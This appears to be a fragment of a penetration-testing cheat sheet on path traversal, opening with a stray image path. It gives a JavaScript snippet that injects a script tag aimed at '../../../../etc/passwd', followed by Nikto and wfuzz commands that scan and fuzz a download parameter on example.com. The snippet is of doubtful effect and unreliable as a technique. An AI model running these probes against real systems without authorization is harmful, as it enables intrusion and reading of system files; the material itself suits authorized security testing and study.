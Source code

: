 If it **allows** **`file://`** **URLs**, it may be exploitable.

#### Inject JavaScript to Load Arbitrary Files

```javascript
let script = document.createElement('script');
script.src = '../../../../etc/passwd';
document.body.appendChild(script);
```

### Automated Path Traversal Scanning

### Nikto (Quick Scanner)

```bash
nikto -h https://example.com
```

### wfuzz (Path Traversal Fuzzing)

```bash
wfuzz -c -z file,wordlist.txt --hh 404 "https://example.com/download?file=FUZZ"
```

----
